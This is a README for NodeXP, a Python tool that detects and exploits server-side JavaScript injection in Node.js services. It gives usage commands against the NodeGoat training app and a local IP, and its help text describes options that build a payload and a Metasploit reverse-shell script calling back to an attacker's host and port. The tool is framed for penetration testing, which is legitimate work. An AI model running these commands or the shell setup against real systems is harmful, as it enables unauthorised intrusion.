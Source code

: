 # NodeXP - Detection and Exploitation Tool for Node.js Services!

**NodeXP** is an intergrated tool, written in Python 2.7, capable of **detecting possible vulnerabilities** on **Node.js** services as well as **exploiting** them in an automated way, based on **S**(erver)**S**(ide)**J**(avascript)**I**(njection) attack!

## Getting Started - Installation & Usage

Download NodeXP by cloning the Git repository:

	git clone https://github.com/esmog/nodexp

To get a list of all options run (see at the end of README.md file):

	python2.7 nodexp -h


Examples on POST and GET case accordingly:
	
	python2.7 nodexp.py --url="http://nodegoat.herokuapp.com/contributions" --pdata="preTax=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA"
	python2.7 nodexp.py --url="http://nodegoat.herokuapp.com/contributions" --pdata="preTax=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA" --tech=blind
	
	python2.7 nodexp.py --url="http://192.168.64.30/?name=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA"
	python2.7 nodexp.py --url="http://192.168.64.30/?name=[INJECT_HERE]" -c="connect.sid=s:i6fKU7kSLPX1l00WkOxDmEfncptcZP1v.fy9whjYW0fGAvbavzYSBz1C2ZhheDuQ1SU5qpgVzbTA" --tech=blind


## Disclaimer

The tool’s purpose is strictly informational and educational and the tool could also be helpful during the process of a penetration test on Node.js services. Any other malicious or illegal usage of the tool is strongly not recommended and is clearly not a part of the purpose of this research.


## Prerequisites

 - Python 2.7
 - Metasploit Framework
 - Kali Linux (or any other Linux distro with Metasploit Framework installed)

## NodeXP Testbeds
 
 - Download and run the Node.js files for both GET and POST cases from [here](https://github.com/esmog)
 - Visit [Nodegoat](http://nodegoat.herokuapp.com) or install  [Nodegoat](https://github.com/OWASP/NodeGoat) to your local machine!

## Built With

* Python 2.7


## Versioning

NodeXP - Version 1.0.0

## Authors

* **Dimitris Antonaropoulos** - *NodeXP* - [esmog](https://github.com/esmog)


## Acknowledgments

* Thank's to commix tool, in which NodeXP is based upon!


## NodeXP (argumenst help manual)

usage: nodexp.py --url URL [--pdata POST_DATA] [--cookies COOKIES]
                 [--tech {blind,result}] [--rand {char,num,all}]
                 [--digits [16-48]] [--time [100-20000]] [--loop [1-1000]]
                 [--email_length [1-24]] [--num_length [1-10]]
                 [--char_length [1-40]] [--time_factor [1.0-4.0]]
                 [--valid_loop [2-100]] [--payload_path {0,1}]
                 [--rc_path {0,1}] [--lhost LHOST] [--lport LPORT]
                 [--encode {0,1}] [--diff {0,1}] [--info {0,1}] [-h]

Arguments Help Manual For NodeXP - Server Side Javascript Injection Tool

Initial arguments:
  --url URL, -u URL     Enter the desirable URL. If it has GET parameters
                        enter "[INJECT_HERE]" on the parameter you want to
                        inject on the --url. If it uses POST data then you
                        have to use --pdata flag.
                        -u="http://test.com/?parameter=[INJECT_HERE]"
  --pdata POST_DATA, -p POST_DATA
                        Enter the POST data and place "[INJECT_HERE]" on the
                        parameter you want to inject on.
                        -p="parameter=[INJECT_HERE]"
  --cookies COOKIES, -c COOKIES
                        Enter cookies on your request headers.
  --tech {blind,result}, -t {blind,result}
                        Select an injection technique between blind injection
                        and results based injection. Keys: blind, result.
                        Default value = result

Results based injection arguments:
  --rand {char,num,all}, -r {char,num,all}
                        Select the type of random generated string between
                        characters only, numbers only or both. Keys: char,
                        num, all. Default value = char
  --digits [16-48], -d [16-48]
                        Enter the number of digits or chars of the random
                        generated string, between 16 to 48. Default value = 16

Blind injection arguments:
  --time [100-20000], -time [100-20000]
                        Time threshold on blind injection in millieseconds.
                        Default value = 250
  --loop [1-1000], -l [1-1000]
                        Number of requests done to specify the average
                        response time. Be careful, big values may be
                        considered as brute force or dos attacks by website.
                        Default value = 10
  --email_length [1-24], -elen [1-24]
                        Length of the characters given as input to the
                        vulnerable parameter, ex. email='testing@gmail.com'.
                        Default value = 9
  --num_length [1-10], -nlen [1-10]
                        Length of the characters given as input to the
                        vulnerable parameter. ex. tel=2102589834. Default
                        value = 2
  --char_length [1-40], -clen [1-40]
                        Length of the characters given as input to the
                        vulnerable parameter. ex. input='My Surname'. Default
                        value = 10
  --time_factor [1.0-4.0], -time_factor [1.0-4.0]
                        Time factor for minimum time threshold. Default value
                        = 2
  --valid_loop [2-100], -valid_loop [2-100]
                        Number of requests done to specify the validity of the
                        blind injection results. Be careful, big values may be
                        considered as brute force or dos attacks by
                        webservers. Default value = 10

Exploitation arguments:
  --payload_path {0,1}, -pp {0,1}
                        Set payload path to default or type new payload path
                        later. The payload name will be 'nodejs_payload.js'.
                        Default value = 1 (cwd/scripts/) ex. -pp=1
  --rc_path {0,1}, -rp {0,1}
                        Set .rc script path to default or type new .rc script
                        path later. The .rc script name will be
                        'nodejs_shell.rc' Default value = 1 (cwd/scripts/) ex.
                        -rp=1"
  --lhost LHOST, -lh LHOST
                        Local host ip address. ex. -lh="192.168.1.1"
  --lport LPORT, -lp LPORT
                        Ip address port number. ex. -lp="6666"
  --encode {0,1}, -enc {0,1}
                        Base64 encoding on your payload. Default value = 1 ex.
                        -enc=1

Printing arguments:
  --diff {0,1}, -diff {0,1}
                        Print the HTML differences of the responses between
                        valid and malicious requests. Default value = 1
  --info {0,1}, -info {0,1}
                        Print additional info. Default value = 1

Other arguments:
  -h, --help            Show this help message and exit.
